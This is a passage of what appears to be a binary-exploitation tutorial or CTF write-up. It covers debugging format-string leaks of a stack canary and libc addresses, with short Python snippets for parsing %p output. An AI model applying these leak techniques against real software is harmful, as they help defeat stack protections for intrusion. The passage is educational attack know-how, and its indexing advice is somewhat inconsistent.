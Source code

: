 
---

## Common Pitfalls and Debugging

### Issue 1: "Can't find canary in leaks"

**Symptom:**
```
Found: Binary ✓, Libc ✓, Canary ✗
```

**Causes:**
1. Not leaking enough positions (need to go deep, position 35+)
2. Parsing incorrectly (wrong split positions)
3. Filtering out canary by mistake

**Solution:**
```python
# Ensure you're parsing correctly
leak = output.split('>')[1].split('0x')[35:]

# Canary is at position 1 (not 0!)
canary = int(leak[1], 16)

# Debug: Print all leaked values
for i, val in enumerate(leak[:20]):
    print(f"leak[{i}] = 0x{val}")
```

**Canary characteristics:**
- Ends in `\x00` (last byte is null)
- Random value
- Usually large (e.g., `0xb6320087a6bbd000`)

---

### Issue 2: "Format string prints itself"

**Symptom:**
```
Leaked addresses: 0x7025702570257025 (repeated)
```

**Cause:**

`0x7025702570257025` is the ASCII hex for `%p%p%p%p`:
```python
>>> bytes.fromhex('7025702570257025')[::-1]
b'%p%p%p%p'
```

When `printf` runs out of stack values to leak, it starts reading the format string buffer itself!

**Solution:**

This is **garbage** - ignore these values. The real leaks are **after** position 35 in the parsed array.

---